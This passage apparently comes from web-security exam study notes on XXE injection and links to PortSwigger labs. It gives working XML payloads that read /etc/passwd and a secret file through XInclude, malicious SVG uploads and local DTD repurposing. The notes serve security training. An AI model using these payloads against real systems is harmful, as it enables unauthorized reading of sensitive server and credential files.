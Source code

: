     ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56f1b87b-65b9-44d3-bf32-80c5dcffd914/Untitled.png)

    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    URL encode the XXE payload before sending.

    <foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>
    ```
*   [ ] [PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

    **XXE via SVG Image upload**

    > Identify image upload on the blog post function that accept svg images, and observe that the avatars already on blog source code is svg extensions.

    > The content of the image.svg file uploaded:

    ```xml
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```

    !https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/xxe-svg-upload.png
*   [ ] [**Exploiting XXE to retrieve data by repurposing a local DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

    > Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

    ```xml
    <!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

    **XML External Entity (XXE) Injection Payloads**

    **XXE: Basic XML Example**

    ```xml
    <!--?xml version="1.0" ?-->
    <userInfo>
     <firstName>John</firstName>
     <lastName>Doe</lastName>
    </userInfo>
